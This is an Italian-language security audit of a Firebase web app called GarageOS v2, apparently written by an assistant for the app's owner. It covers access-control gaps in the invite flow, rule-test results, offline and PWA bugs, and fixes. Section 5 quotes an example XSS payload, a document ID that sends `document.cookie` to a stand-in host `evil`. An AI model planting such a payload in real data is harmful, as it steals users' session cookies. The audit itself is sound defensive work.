

# GarageOS v2 — Audit (Fase 1)

**Data:** 2026-11-07 · **Codice analizzato:** `lucsor/garageos-v2@main` (`2e172c0`, "versione 2.1", SW `2.1.0`)
La cartella locale ha lo stesso contenuto di `main` (differiscono solo i fine riga, CRLF in remoto). **Non è un repo git** (manca `.git`).

**Fonti:** `index.html` (2332 righe), `sw.js`, `manifest.json`, `README.md`, cronologia commit (5 commit, nessuna issue aperta o chiusa), repo v1 `lucsor/garageOS`, header HTTP di produzione, test delle regole sull'emulatore (vedi §3).

> **Limite principale dell'audit:** `firestore.rules`, `firestore.indexes.json`, `firebase.json` e `.firebaserc` **non esistono nel repo**. Le regole pubblicate non sono verificabili da qui: non c'è Firebase CLI loggata e non ho accesso alla console.
> Ho verificato solo che **un client non autenticato riceve 403** su `garages` e `users` (REST, produzione). Cosa può fare un **utente Google autenticato qualsiasi** resta da verificare con le regole reali: incollamele e rilancio la suite.

---

## 0. Sintesi

| # | Gravità | Problema | Dove |
|---|---|---|---|
| C1 | 🔴 Critico | **Ingresso in qualunque garage senza invito**: il join aggiunge l'utente anche se non c'è nessun invito pending, e nessuna regola compatibile con il codice attuale può impedirlo | `index.html:1170-1182` |
| C2 | 🔴 Critico | **XSS memorizzato**: gli ID dei documenti non vengono escapati negli `onclick`/`value`; `esc()` è inefficace dentro una stringa JS in un attributo | `index.html:1566, 1620, 1996-2007, 2019, 2044, 2057, 2070-2071, 2099-2100, 2122, 2212, 2225` |
| C3 | 🔴 Critico | **La v1 è ancora online sullo stesso progetto Firebase** e fa `getDocs(collection('garages'))`: se funziona ancora, le regole permettono a chiunque sia loggato di leggere tutti i garage | v1 `index.html:1194, 1250` |
| H1 | 🟠 Alto | Il doc garage è leggibile da ogni utente loggato (email, nomi e foto dei membri), anche nella variante più stretta compatibile con la v2 | flusso join `1166-1167` |
| H2 | 🟠 Alto | Un errore di rete all'avvio fa ripuntare un membro sul proprio garage vuoto (`users.garageId` sovrascritto) | `index.html:1102-1145` |
| H3 | 🟠 Alto | Nessuna migrazione v1→v2; inoltre la rimozione di un membro dalla v1 non tocca `memberUids` (il membro tiene l'accesso in v2) | v1 `index.html:2213-2216` |
| H4 | 🟠 Alto | Nessuna validazione di tipo e dimensione, sottocollezioni arbitrarie | regole |
| H5 | 🟠 Alto | Offline non funziona: SDK Firebase non in cache, nessuna persistenza Firestore | `sw.js:43`, `index.html:950` |
| M1 | 🟡 Medio | Un intervento con più tipi salva il costo **per ciascun tipo** → costi raddoppiati | `index.html:1881` |
| M2 | 🟡 Medio | `members[]` aggiornato con read-modify-write senza transazione → aggiornamenti persi | `1299-1307, 1167-1182, 1332-1337` |
| M3 | 🟡 Medio | La rimozione di un membro cerca l'uid in `members[]`: se la voce manca, l'accesso resta | `1334-1336` |
| M4 | 🟡 Medio | Eliminazione del veicolo non atomica (figli cancellati in base alla cache locale) | `1282-1288` |
| M5 | 🟡 Medio | km, costi e anni salvati come **stringhe**; timestamp con l'orologio del client | `1746-1768, 1810-1822, 1865-1875` |
| M6 | 🟡 Medio | "Oggi" calcolato in UTC: tra mezzanotte e l'1-2 di notte la data proposta è quella di ieri | `1589, 1519, 1433, 1449` |
| M7 | 🟡 Medio | SW: all'aggiornamento cancella la cache delle notifiche; ricarica la pagina alla prima installazione | `sw.js:32-34`, `index.html:2328` |
| M8 | 🟡 Medio | Errori dei listener ignorati: dopo una rimozione la UI resta su "● Offline" | `1221-1259` |
| M9 | 🟡 Medio | Login con redirect su `github.io` con `authDomain` `firebaseapp.com`: fragile su Safari/iOS/browser che bloccano lo storage di terze parti | `942, 1028-1039` |
| L* | 🟢 Basso | SDK vecchio, niente CSP/App Check, manifest, CSV injection, ecc. | §5-7 |

---

## 1. Modello dati reale (ricostruito dal codice)

**Osservazioni sul modello**
- **Garage = uid del proprietario.** Ogni utente ha *un solo* garage proprio e può puntare a *un solo* garage alla volta (`users.garageId`). Se un proprietario accetta un invito, il suo garage sparisce dalla UI e non esiste un modo per tornarci (né un "esci dal garage").
- **Due fonti di verità per la membership:** `members[]` (per la UI) e `memberUids` (per l'accesso). Possono divergere, come già succede con la v1 (H3) e con la rimozione (M3).
- **Denormalizzazioni:** `ownerName/Email/Photo` e `members[].name/photo` sono copiati una volta e non si aggiornano mai. `addedBy` salva l'email invece dell'uid (PII duplicata e non aggiornabile). Sono innocue ma inutili; quella *pericolosa* è `memberUids` ↔ `members[]`.
- **Date:** le scadenze sono stringhe `YYYY-MM-DD`. **Per date di calendario va bene**, anzi evita problemi di fuso, e il confronto lessicografico funziona. Il problema sono i timestamp (`createdAt`, `updatedAt`, `invitedAt`, `frozenAt`): sono ISO generati dal client, quindi non affidabili. Andrebbero salvati con `serverTimestamp()`.
- **Numeri come stringhe:** non si possono fare query `where('km','>',…)` o ordinamenti numerici, servono `parseFloat` sparsi nel codice e `"0"` risulta truthy. Va migrato a `number`.
- `orderBy('plate')` e `orderBy('date')` (`1214, 1224, 1229`) **escludono** i documenti senza quel campo. Oggi il campo viene sempre scritto, ma un dato importato o creato via SDK sparirebbe silenziosamente.

---

## 2. Regole Firestore

### 2.1 Stato
- **Il file non esiste nel repo** e il README dice "ricorda di pubblicare le regole nella console". Sono quindi gestite a mano, non versionate e non testate.
- Lettura non autenticata di `garages` e `users`: **403** (verificato in produzione).

### 2.2 Vincolo strutturale: il codice v2 impone regole larghe
Il flusso di join (`checkJoinLink`, `index.html:1149-1204`) fa:
1. `getDoc(garages/{joinId})` **quando l'utente non è ancora membro** → la `read` deve essere aperta a ogni utente loggato;
2. `setDoc(garage, { members, memberUids: arrayUnion(me) }, {merge:true})` **da non membro** → l'`update` deve accettare chi non è membro;
3. se l'email non è tra i pending fa comunque `members.push(me)` (`1180`).

Le regole **non possono iterare `members[]`**, che è una lista di mappe, per controllare che esista un invito pending per `request.auth.token.email`. Quindi nessuna regola compatibile con questo codice distingue l'invitata da un estraneo. **L'"invito" è in realtà la coppia `uid del proprietario + email`**:
- **indovinabile o noto:** l'uid del proprietario sta nel link, ogni membro vede `memberUids`, e un ex membro lo conosce;
- **nessuna scadenza**;
- **nessun uso singolo:** il link funziona all'infinito, anche dopo la rimozione;
- **il controllo dell'email è solo lato client** (`1157`): chi usa l'SDK direttamente lo salta.

### 2.3 Risposte puntuali
| Domanda | Risposta |
|---|---|
| Un non membro può leggere un garage? | **Sì**, se loggato: è necessario per il join. Il doc contiene le email, i nomi e le foto di tutti i membri. Le sottocollezioni no, se sono protette da `memberUids`. |
| Un non membro può scrivere? | **Sì, può entrare da solo**, poi ha accesso completo a veicoli, gomme e interventi. |
| Un membro può aggiungersi o togliersi da `memberUids`? | Togliersi: dovrebbe poterlo fare (oggi manca la UI). Aggiungere *altri*: dipende dalle regole (sì con la baseline A, no con la B). |
| Un membro può rimuovere il proprietario? | Il proprietario non sta in `memberUids` ma è l'id del doc più `ownerUid`. Con regole permissive un membro può riscrivere `ownerUid` o cancellare il doc garage. |
| Gli inviti sono protetti? | **No** (vedi §2.2). |
| Validazioni di tipo e dimensione? | Nessuna nel codice; nelle regole non è dato sapere, ma il codice non ne presuppone. |

---

## 3. Test delle regole (emulatore)

Percorso: `tests/rules/`. Strumenti: `@firebase/rules-unit-testing` 4.0.1, `firebase` 11.10, `firebase-tools` 14.27, `node:test`, JDK 21.
Esecuzione: `npm run test:A` / `npm run test:B` (serve Java 21 nel `PATH`).

Visto che le regole reali non sono disponibili, ne ho ricostruite **due varianti** e le metto a confronto con **la stessa suite di requisiti** (34 casi):

- **A, permissiva** (`baseline/A-permissive.rules`): `garages` in lettura e scrittura per ogni utente loggato, sottocollezioni per i membri. È il minimo che fa funzionare **v1 e v2 insieme**, quindi la variante più probabile se la v1 è ancora in uso.
- **B, la più stretta compatibile con il codice v2** (`baseline/B-strict-v2-compatible.rules`): l'update di un non proprietario è consentito solo su `members` e `memberUids`, e `memberUids` può crescere solo di `request.auth.uid`.

| Caso | A | B |
|---|:-:|:-:|
| P01-P11 flussi legittimi (proprietario, membro, invito, CRUD) | ✅ | ✅ |
| P12 membro esce togliendo solo sé stesso | ✅ | ❌ (non previsto) |
| A01 non autenticato legge | ✅ bloccato | ✅ |
| **A02 estraneo legge il garage (PII dei membri)** | ❌ | ❌ |
| **A03 estraneo elenca tutti i garage (query v1)** | ❌ | ❌ |
| A04-A05 estraneo legge/scrive veicoli | ✅ | ✅ |
| **A06 estraneo entra senza invito (flusso v2)** | ❌ | ❌ |
| **A07 estraneo si aggiunge a `memberUids` via SDK** | ❌ | ❌ |
| A08 membro aggiunge un terzo uid | ❌ | ✅ |
| A09 membro rimuove un altro membro | ❌ | ✅ |
| A11 membro cambia `ownerUid` | ❌ | ✅ |
| A12 membro rinomina il garage | ❌ | ✅ |
| **A13 membro riscrive `members[]`** | ❌ | ❌ |
| **A14 estraneo inietta un'email con payload XSS** | ❌ | ❌ |
| A15 membro cancella il doc garage | ❌ | ✅ |
| A16 estraneo crea un garage con id altrui | ❌ | ✅ |
| A17 estraneo legge `users/{altro}` | ✅ | ✅ |
| **A18 invito riusabile dopo la rimozione** | ❌ | ❌ |
| **V01-V05 validazione (900 KB, tipi, campi obbligatori, docId con apice, sottocollezioni arbitrarie)** | ❌ | ❌ |
| **Totale** | **16/34** | **21/34** |

**Conclusione:** i casi in grassetto falliscono **anche con la variante B**. Non si sistemano solo con le regole: serve cambiare il flusso di invito, cioè un documento invito con token casuale, scadenza e uso singolo, accettato solo con l'email corrispondente. Questa sarà la prima voce della Fase 3.

---

## 4. Query, indici, costi, offline

- **Indici:** le query attuali usano solo un `orderBy` su un singolo campo, per cui bastano gli indici automatici. `firestore.indexes.json` manca: non è un bug, ma va aggiunto (anche vuoto) insieme a `firebase.json` per gestire tutto come codice e poter usare `firebase deploy --only firestore`.
- **Listener:** 4 per sessione: `vehicles`, `tires` e `mechs` caricati **interi**, più il doc garage. Su scala famiglia (es. 5 veicoli, 200 interventi, 30 gomme) sono ~240 letture per apertura e per dispositivo, contro un piano gratuito di 50.000 al giorno. **Il costo non è un problema oggi.** Lo diventerà solo con anni di storico o con molti dispositivi che si riconnettono spesso: dopo più di 30 minuti offline il listener rilegge tutto. La paginazione non serve ora; in v3 conviene limitare `mechs` agli ultimi N anni oppure usare aggregati.
- **Letture inutili:** `resolveGarage` legge `users` e il garage a ogni avvio (2 letture, trascurabile). `sendInvite` e `removeMember` rileggono il garage anche se è già nel listener (trascurabile). La v1, se aperta, ha un `onSnapshot` sull'**intera collezione** `garages` (`v1:1249`): costa e soprattutto espone dati.
- **Persistenza offline:** **assente**. `getFirestore(app)` (`index.html:950`) usa la cache in memoria. Manca `initializeFirestore(app, { localCache: persistentLocalCache({ tabManager: persistentMultipleTabManager() }) })`. `enableIndexedDbPersistence` è deprecato: non usarlo.
- **Migrazione v1→v2:** **non esiste.** Effetti:
  - il proprietario v1 vede i suoi dati (stesso path `garages/{uid}`);
  - i membri v1 non hanno `users/{uid}` né sono in `memberUids`, quindi in v2 finiscono su un garage proprio vuoto e vanno re-invitati;
  - finché la v1 resta online, scrive `members[]` senza mantenere `memberUids` (H3).
  Serve uno script con dry run che, per ogni garage, ricostruisca `memberUids` dai `members` con `status: 'active'` e `uid` valorizzato e crei i `users/{uid}` mancanti. Poi la v1 va spenta o reindirizzata.

---

## 5. Sicurezza del client

**Escaping (C2).** `esc()` (`964`) copre bene i testi inseriti con `innerHTML`, ma:
1. **Gli ID non vengono mai escapati.** `v.id`, `t.id` e `m.id` finiscono in `onclick="fn('${id}')"` e in `value="${id}"`. Gli ID dei documenti Firestore **possono contenere `'` e `"`**: chi può scrivere (un membro, oppure un estraneo grazie a C1) crea un veicolo con id `x');fetch('//evil?'+document.cookie);//` e il codice parte quando il proprietario apre la dashboard. Righe: `1620, 1996, 1997, 2006, 2007, 2019, 2044, 2057, 2070, 2071, 2099, 2100, 2122`. Anche `m.type` in `1566` (`toggleMechType('${id}')`).
2. **`esc()` dentro un attributo-handler non protegge.** Il browser decodifica `&#39;` in `'` *prima* di eseguire il JS dell'`onclick`. Quindi `removeMember('${esc(m.email)}')` (`2212, 2225`) resta iniettabile con un'email creata via SDK (caso A14).
3. **Rimedio:** eliminare gli handler inline e usare `data-id` più event delegation (`addEventListener`). Oppure, come minimo, validare gli ID nelle regole (`docId.matches('^[A-Za-z0-9_-]{1,40}$')`) **e** usare `JSON.stringify` più l'escape dell'attributo. La prima strada è quella giusta: abilita anche una CSP seria.
- `img src="${esc(photo)}"` (`2194, 2205`): un URL arbitrario non esegue codice, ma permette un tracking pixel (IP dei membri). Rischio basso; le regole possono limitarlo a `https://lh3.googleusercontent.com/`.
- **CSV injection** (`1404-1406`): valori che iniziano con `= + - @` diventano formule in Excel. Rischio basso; si risolve con un prefisso `'`.
- **CSP:** assente, e GitHub Pages non permette header custom (resta il `<meta http-equiv>`, senza `frame-ancestors`). Oggi una CSP utile è impossibile: ci sono ~40 handler `onclick` inline e due `<script>` inline. Va introdotta **dopo** la rimozione degli handler: `script-src 'self' https://www.gstatic.com https://apis.google.com; connect-src https://*.googleapis.com …; img-src 'self' https://lh3.googleusercontent.com data:`.
- **Config Firebase esposta:** è normale. Però **manca App Check** (consigliato reCAPTCHA Enterprise; prima in modalità monitor, poi enforce) e va verificata la **restrizione della API key** per referrer `https://lucsor.github.io/*` nella console Google Cloud.
- **Domini autorizzati in Auth:** non verificabili da qui. Devono contenere `lucsor.github.io`; tieni `localhost` solo se ti serve per lo sviluppo. Se la v1 viene dismessa, il dominio resta lo stesso (`lucsor.github.io`), quindi non cambia nulla.
- **SDK Firebase 10.11.0** (aprile 2024): vecchio, la linea attuale è la 12.x. Gli `import` da gstatic non hanno SRI (gli import ES non lo supportano); la difesa è la CSP oppure servire l'SDK in self-hosting.
- `signOut` non svuota la cache `garageos-notif` (`1043-1053`): su un dispositivo condiviso il SW continua a notificare le scadenze dell'utente precedente.
- Nome reale in chiaro nella schermata di login (`557`): è una scelta, la segnalo soltanto.

---

## 6. PWA

| Aspetto | Stato |
|---|---|
| Installabilità | OK: manifest con `start_url`/`scope` relativi, icone 192 e 512, SW con fetch handler. |
| Manifest | `"purpose": "any maskable"` combinato è sconsigliato (servono icone distinte con safe zone); mancano `id`, `screenshots` (UI di installazione ricca su Android) e un `apple-touch-icon` 180×180; `icon-512.png` pesa 386 KB (comprimibile sotto i 50 KB). |
| iOS | `apple-mobile-web-app-capable` è deprecato: aggiungere `mobile-web-app-capable`. Login con popup o redirect in modalità standalone **da testare sul dispositivo** (M9). Le notifiche locali via `periodicSync` su iOS **non esistono**; il Web Push su iOS ≥16.4 funziona solo con l'app installata e FCM. |
| Android | `periodicSync` funziona solo con la PWA installata, su Chromium, con intervalli decisi dal browser (spesso più di 24 h). Le notifiche quindi sono "best effort", non affidabili. |
| Aggiornamento SW | Il flusso c'è: niente `skipWaiting` automatico, banner, `SKIP_WAITING`, `controllerchange` seguito da reload. **Bug:** alla *prima* installazione `clients.claim()` (`sw.js:34`) fa scattare `controllerchange` e la pagina si ricarica da sola (`index.html:2328`), anche durante il popup di login. Si risolve con un flag `refreshing`, ricaricando solo se c'era già un controller. |
| Versioning cache | Manuale (`VERSION`) e facile da dimenticare. `activate` cancella **ogni** cache diversa da quella corrente, **inclusa `garageos-notif`** (`sw.js:32`): si perdono `lastNotified` e lo snapshot. GitHub Pages serve `sw.js` con `max-age=600`, ma il browser rivalida comunque lo script del SW (al massimo dopo 24 h), quindi va bene. |
| Offline | **Non funziona** (H5): il SW ignora le origini esterne (`sw.js:43`), quindi l'SDK su `gstatic.com` e i font non vanno in cache; senza persistenza Firestore non ci sarebbero comunque dati. Inoltre il fetch è network-first su tutto, quindi lento con rete scarsa. Ogni GET viene messo in cache, comprese le varianti `?join=…`. |

**Test sui dispositivi:** non posso eseguirli da qui. Checklist manuale proposta per la Fase 4: installazione e avvio standalone, login popup e redirect, aggiornamento con banner, modalità aereo dopo il primo avvio, notifica di prova. Su Android con Chrome; su iOS con Safari, "Aggiungi a Home".

---

## 7. Altri bug funzionali

- **M1** `saveMech` (`1881`): con N tipi selezionati crea N documenti **ognuno con l'intero costo**. Un tagliando "olio + filtro" da 250 € conta 500 € nelle statistiche, nel grafico e nel CSV.
- **L** `saveMech` in modifica (`1879`): la griglia permette di selezionare più tipi ma salva solo il primo, senza avvisare.
- **H2** `resolveGarage` (`1102-1145`): qualunque errore nel leggere `users` o il garage condiviso (rete assente, `unavailable`) porta a usare il garage proprio **e a scrivere `users/{uid}.garageId = uid`**. Il membro perde il puntatore in modo permanente e vede un garage vuoto. Va fatto il fallback solo su `permission-denied` o `not-found`.
- **M8** Listener `u2`, `u3`, `u4`: gli errori finiscono solo in console. Dopo una rimozione (`permission-denied`) la UI resta su "Offline" invece di tornare al garage proprio.
- **M2** `sendInvite`, join e `removeMember` riscrivono l'intero `members[]`: con due operazioni contemporanee vince l'ultima e un invito o un ingresso si perde. Serve `runTransaction` (o, meglio, inviti come documenti separati).
- **M4** `removeVehicle`: cancella prima il veicolo, poi i figli presi da `data.*` locale. Se l'operazione si interrompe a metà restano orfani. Va usato `writeBatch` (fino a 500 operazioni).
- **M6** `new Date().toISOString().split('T')[0]` dà la data UTC. Tra le 00:00 e le 01:00 (02:00 con l'ora legale) la data proposta, il rinnovo e il nome del CSV usano il giorno precedente.
- `addYears` sul 29/02 restituisce l'01/03 (caso limite).
- Il proprietario che accetta un invito perde l'accesso al proprio garage dalla UI (nessuno switch tra garage).

---

## 8. Codice: il file unico è ancora gestibile?

2332 righe: ~530 CSS, ~380 HTML, ~1370 JS. **Si gestisce ancora, ma è al limite**: ogni funzionalità di Fase 2 (documenti, rifornimenti, ruoli, log) aggiunge centinaia di righe. Il vero debito non è la lunghezza ma **~40 funzioni esportate su `window` per gli `onclick` inline**, che bloccano la CSP e causano C2.

| | **Moduli ES senza build** | **Vite (+ vite-plugin-pwa)** |
|---|---|---|
| Struttura | `css/app.css`, `js/main.js`, `js/db.js`, `js/render/*.js`, `js/ui.js` | Uguale, più `npm` |
| Deploy | Invariato (Pages da `main`/root) | GitHub Actions → Pages (cambia l'impostazione di Pages); `main` contiene i sorgenti, non il sito |
| Firebase | Resta da gstatic (o copiato in `vendor/`) | Da npm, tree-shaking: bundle più piccolo e versione bloccata in `package-lock` |
| Cache SW | Lista dei file a mano più `VERSION` a mano | Precache generato con gli hash: **niente più versioni da incrementare a mano** |
| Test | Solo test delle regole ed E2E | Anche Vitest per la logica (date, costi, alert km) |
| Rischio | Basso, migrazione incrementale | Medio: nuovo tooling, deploy diverso, `npm` necessario per contribuire |
| Contro | Molte richieste HTTP (pazienza: HTTP/2), niente minificazione | Build step, dipendenze da aggiornare |

**Raccomandazione:** in due tempi.
1. **Subito, senza build:** dividere in moduli ES ed eliminare gli handler inline con event delegation (risolve C2 alla radice e abilita la CSP). Rischio minimo, deploy invariato.
2. **Quando arriveranno Storage, FCM o i grafici:** passare a Vite con `vite-plugin-pwa`. Il guadagno maggiore è il precache con hash, che elimina il bump manuale della versione e gli errori di cache. È una scelta da fare insieme, perché cambia il modo di pubblicare.

---

## 9. Quick win (≤ 1 ora ciascuno, a basso rischio)

1. Versionare `firestore.rules`, `firestore.indexes.json` (vuoto), `firebase.json`, `.firebaserc` più i test in `tests/rules/`.
2. Join: **rifiutare se non esiste un invito pending** per quell'email (`1180`). Non chiude C1 lato server, ma blocca il caso "link fatto a mano".
3. `writeBatch` in `removeVehicle`; costo diviso o assegnato solo al primo tipo in `saveMech` (decisione tua, §7 M1).
4. `resolveGarage`: fallback solo su `permission-denied` o `not-found`.
5. SW: non cancellare `garageos-notif`; flag `refreshing` sul `controllerchange`; precache dei moduli SDK di gstatic (CORS ok).
6. `persistentLocalCache` in `initializeFirestore`.
7. Data locale invece di UTC per "oggi".
8. Validazione degli ID nelle regole (`^[A-Za-z0-9_-]{1,40}$`), utile anche come difesa in profondità contro C2.
9. Spegnere la v1 o sostituirla con una pagina di redirect alla v2, **dopo** aver migrato `memberUids`.
10. Restringere la API key per referrer e attivare App Check in modalità monitor.

---

## 10. Domande aperte (servono prima della Fase 3)

1. **Mi incolli le regole Firestore pubblicate** (Console → Firestore → Regole)? Rilancio la suite su quelle reali e aggiorno il §3.
2. **La v1 è ancora usata da qualcuno della famiglia?** Determina se le regole possono chiudere la lettura globale da subito o solo dopo la migrazione.
3. Per la Fase 4 serve un working copy git: posso clonare `lucsor/garageos-v2` in questa cartella? Oggi è una copia senza `.git` e contiene `desktop.ini`, che non va committato.
